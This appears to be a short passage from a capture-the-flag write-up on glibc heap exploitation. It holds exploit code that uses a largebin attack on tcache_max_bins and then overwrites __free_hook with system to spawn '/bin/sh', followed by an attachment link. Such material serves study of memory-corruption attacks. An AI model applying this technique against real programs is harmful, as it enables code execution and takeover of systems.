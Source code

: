 ```bash
tcache_max_bins = libcbase + 0x1EC2D0
li('tcache_max_bins = '+hex(tcache_max_bins))
free_hook = libcbase + libc.sym['__free_hook']
system = libcbase + libc.sym['system']

pl = p64(0)*3+p64(tcache_max_bins-0x20)

edit(0,pl)

add(0x540,6,"b") #largebin attack
delete(1)
delete(2)

edit(2,p64(free_hook))

add(0x450,5,b'/bin/sh\x00')

add(0x450,6,p64(system))
#dbg()
delete(5)
```

‍

‍

![](assets/1700442753-c1a690c3008373b105f447e452f0cfec.gif)附件.zip (0.83 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231117185341-920dca34-8537-1.zip)
